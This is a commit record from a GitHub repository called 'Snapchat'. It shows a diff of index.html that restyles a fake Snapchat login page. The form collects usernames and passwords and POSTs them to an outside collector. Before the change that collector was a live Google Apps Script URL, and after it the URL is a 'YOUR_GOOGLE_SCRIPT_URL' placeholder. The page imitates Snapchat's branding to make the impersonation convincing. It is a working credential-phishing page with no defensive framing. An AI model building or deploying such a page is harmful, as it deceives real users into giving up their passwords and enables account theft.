

Before and after one commit to Keshav-code123/Snapchat, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 363-816 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -1,47 +1,103 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-  <meta charset="UTF-8">
-  <title>Snapchat Login</title>
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
+  <title>Snapchat</title>
+
+  <!-- Favicon -->
+  <link rel="icon" href="1234.jpg" type="image/jpeg" />
+
+  <!-- Styling -->
   <style>
+    * {
+      box-sizing: border-box;
+      margin: 0;
+      padding: 0;
+      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+    }
+
     body {
-      background-color: #FFFC00;
+      background-color: #fffc00;
       display: flex;
       justify-content: center;
       align-items: center;
       height: 100vh;
-      font-family: Arial, sans-serif;
     }
-    .login {
-      background: white;
-      padding: 20px;
-      border-radius: 10px;
-      box-shadow: 0 0 10px rgba(0,0,0,0.2);
-      width: 300px;
+
+    .login-container {
+      background-color: white;
+      border-radius: 20px;
+      box-shadow: 0 0 30px rgba(0, 0, 0, 0.1);
+      padding: 40px 30px;
+      width: 320px;
       text-align: center;
     }
-    input {
-      width: 90%;
-      padding: 10px;
-      margin: 10px 0;
-      border: 1px solid #ccc;
-      border-radius: 5px;
+
+    .logo {
+      margin-bottom: 25px;
     }
-    button {
-      background-color: #FFFC00;
+
+    .logo img {
+      width: 60px;
+      border-radius: 12px;
+    }
+
+    h2 {
+      margin-bottom: 25px;
+      font-size: 24px;
+      color: #000;
+    }
+
+    input[type="text"],
+    input[type="password"] {
+      width: 100%;
+      padding: 12px;
+      margin-bottom: 15px;
+      border: 1px solid #ddd;
+      border-radius: 10px;
+      font-size: 16px;
+    }
+
+    input[type="submit"] {
+      background-color: #fffc00;
       border: none;
-      padding: 10px 20px;
+      border-radius: 10px;
+      padding: 12px;
       font-weight: bold;
-      border-radius: 5px;
+      font-size: 16px;
+      width: 100%;
+      cursor: pointer;
+      transition: background-color 0.3s;
+    }
+
+    input[type="submit"]:hover {
+      background-color: #e5da00;
+    }
+
+    .footer {
+      margin-top: 20px;
+      font-size: 12px;
+      color: #777;
     }
   </style>
 </head>
 <body>
-  <form method="POST" action="https://script.google.com/macros/s/AKfycbzJ-I68JVzs-E6W2iEfCse9OZEqoEB4wWBHSSbMOMr0fSq5R947-1ZYoMnTJq_vY1qb/exec">
-    <h2>Snapchat Login</h2>
-    <input type="text" name="username" placeholder="Username or Email" required><br>
-    <input type="password" name="password" placeholder="Password" required><br>
-    <button type="submit">Login</button>
-  </form>
+
+  <div class="login-container">
+    <div class="logo">
+      <img src="1234.jpg" alt="Snapchat Logo">
+    </div>
+    <h2>Log In to Snapchat</h2>
+    <form method="POST" action="YOUR_GOOGLE_SCRIPT_URL">
+      <input type="text" name="username" placeholder="Username or Email" required>
+      <input type="password" name="password" placeholder="Password" required>
+      <input type="submit" value="Log In">
+    </form>
+    <div class="footer">
+      New to Snapchat? <a href="#">Sign up</a>
+    </div>
+  </div>
+
 </body>
 </html>
```
Also changed, not shown: 1 other file.
